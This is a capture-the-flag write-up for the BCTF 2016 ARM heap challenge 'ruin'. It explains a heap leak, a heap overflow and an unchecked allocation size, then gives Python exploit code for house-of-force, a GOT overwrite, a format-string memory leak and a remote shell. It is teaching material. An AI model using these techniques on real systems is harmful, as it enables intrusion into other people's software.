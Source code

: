 ```yaml
---
layout: post
title: BCTF - Ruin Writeup
description: "Writeup for the 2016 bctf heap exploitation exercise (pwn 200) ruin."
modified: 2016-03-22
tags: [writeup, ctf, bctf, arm, heap, pwn]
comments: true
share: true
categories: [writeups]
---
```


I solved this challenge with the help of my teammate [@KT](https://twitter.com/koczkatamas). The required technique and vulnerabilities in this challange are very similar to the bcloud (pwn 150) exercise I solved this one first so I try to describe them here. I might add a writeup for the other challange too, if I have the time. 

```
$ ./checksec.sh --file ruin
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   ruin

```

We were given with an ARM (EABI-5) binary, which we immediatly loaded up in IDA. The source code is pretty simple so the reversing was pretty straight forward, the Hex-Rays decompiler makes it even easier. The program reads a key and if it is correct we are presented with a menu where we can write strings into three different buffers.

The vulnerbalilities were pretty obvious in the binary. The first one is in the key read method at the very beginning, it reads 8 characters into an 8 byte array on the .bss than prints it if it is not the right key.

```c
printf("please input your 8-bit key:");
fread(g8bitKeySecurity, 1u, 8u, (FILE *)stdin);
if ( !strncmp(g8bitKeySecurity, "security", 8u) )
   break;
printf("%s is wrong, try again!\n", g8bitKeySecurity);
```

Luckily there is a heap pointer right after the buffer on the .bss so if we provide an 8 characters long invalid key we have our heap leak, which will be crucial later.

The second vuln is in the edit secret function which allocates an 8 byte long buffer than reads 24 bytes into it.

```c
if ( !gSecretBOF )
  gSecretBOF = (char *)malloc(8u);
printf("please input your secret:");
return fgets(gSecretBOF, 24, (FILE *)stdin);
```

The third vuln is in the sign name function which only checks the upper bound of the supplied integer that later is converted to unsigned. This allows us to allocate arbitrarily large buffer.

So what we have at this point is a heap leak, a binary with no relro and no PIE, a heap buffer that overflows, arbitrary user controlled heap allocation and a third buffer that we can write. This screams house of force (note: a good resource to look for heap exploits is [How2Heap](https://github.com/shellphish/how2heap) by shellphish that also explains and demonstrates house of force in detail).

During house of force we overwrite the size of the wilderness (the size of the last free chunk) to be extremely large so we can allocate huge buffers on the chunked (brk) heap and avoid calling mmap. This way we can move the "end of the heap" to an arbitrary location in the memory and control the next allocation. Since there is no full-relro and there is no PIE we can overwrite .got.plt to gain IP control. To position the "heap end" to the got we have to allocate ``` target_address - 2*pinter_size - heap_current_top``` sized buffer.

```python
## Leak the heapbase
connect = c
c.recvuntil(":")
c.send("xxxxxxxx")
leak = c.recvuntil(':')
print hexdump(leak[8:12])
heapbase = u32(leak[8:12]) - 8
c.send("security")
c.recvuntil(":")

## Overwrite last chunk free space
LAST_CHUNK_SIZE= "\xff"*4 + "\xff"*4
FILL="\x00"*8
sendData(c, 2, ["A"*8+LAST_CHUNK_SIZE+FILL])
print "Wilderness Set Up"
c.send('\n')
c.recvuntil(':')

## Position the "heap end"
heap_top = heapbase + 20
target = e.got['exit']
print hex(target)
address = target - 8 - heap_top
print str(address)
OFFSET_TO_GOT= str(address) + 'A'* (32 -len(str(address)))
sendData(c, 3, [OFFSET_TO_GOT,"A"*10+"\n"])
```


 Our third controlled buffer is 16 bytes long plus the 8 bytes of the chunk header so we would overwrite 24 bytes on the .got.

```
.got:00010F74 __libc_start_main_ptr DCD __imp___libc_start_main
.got:00010F74                                         ; DATA XREF: __libc_start_main+8r
.got:00010F78 __gmon_start___ptr DCD __imp___gmon_start__ ; DATA XREF: __gmon_start__+8r
.got:00010F7C exit_ptr        DCD __imp_exit          ; DATA XREF: exit+8r
.got:00010F80 atoi_ptr        DCD __imp_atoi          ; DATA XREF: atoi+8r
.got:00010F84 strncmp_ptr     DCD __imp_strncmp       ; DATA XREF: strncmp+8r
.got:00010F88 abort_ptr       DCD __imp_abort         ; DATA XREF: abort+8r
```

A good target to overwrite is ```atoi``` because we can directly supply a string as its parameter and has enough space before and after it. Now that we have IP control we need an address to jump to, however we dont yet have the libc base address and the libc version. At this point we decided to overwrite ```atoi``` with the .plt address of the ```printf``` stub to leak further information. 

```python
## leak libc base
c.send("%21$p|%22$p/\n")
libc = c.recvuntil('/')[:-1]
start = int(libc.split('|')[0], 16)
segment = int(libc.split('|')[1], 16)
print hex(start)
print hex(segment)

## Overwrite got
PAYLOAD_ADDR=p32(0x8594)
sendData(c, 1, [PAYLOAD_ADDR+ "\x00"* (16-len(PAYLOAD_ADDR))])
```

Fortunately there are libc adresses on the stack that we can read, so we only need the address of ```system```. With our printf we have arbitrary read from the entire memory thus we can search libc for the system export symbol, this can be further simplified with pwntools DynELF lookup. The only problem is that the ```printf``` input is read by ```fgets``` which terminates on null byte, so we cant directly read addresses containing 0x00 byte. This is not a huge problem because we can still read from the previous or next address and identify the ELF header.

```pyhton
def leaker(addr):
    sys.stdout.write(hex(addr) + ': ')
    if addr%0x100 == 0:
        print "upppss..."
        if not '000' in '%02x'%(addr + 1):
            testVal = leaker(addr + 1)
            if testVal[0:3] == "ELF":
                return "\x7f" + testVal
            else:
                return leaker(addr - 1)
        else:
            return leaker(addr - 1)
    else:
        connect.send(p32(addr) + "%5$s\n")
        data = connect.recvuntil('\nwrong')[4:-6]
        if data == "":
            data += "\x00"
        print '%r' % data
        dump = connect.recvuntil(':')
        return data

d = DynELF(leaker, start)
system = d.lookup('system')
print 'system = %r' % system
```

At this point we have evrything we need, we just have to rewrite the original ```atoi``` address to the leaked ```system``` address. One little thing is that we have overwritten the ```atoi``` which return value is used to navigate the menu, luckily we can use the ```printf``` to navigate by sending as many characters as the menu option we want to hit (the ```printf``` returns the number of printed bytes). Finally we just have to send the "\bin\sh" input to ```system``` and we have our remote shell, to read the flag.

```
BCTF{H0w_3lf_Ru1n3d_XmaS}
```

The complete exploit is availabe [here](/resources/writeup/bctf-2016/ruin/exploit.py) (disclaimer: it was written under CTF circumstances and it might disturb seasoned coders). I think the challange was all right, however it really did not make any difference that it was ARM (besides making a tiny bit harder to figure out the libc version). I was looking for some ARM/Thumb mode switching ROP chain writing or something specific for the architecture, which was not needed to solve the challange. Still I had fun and thanks for the organizers for the challenge.
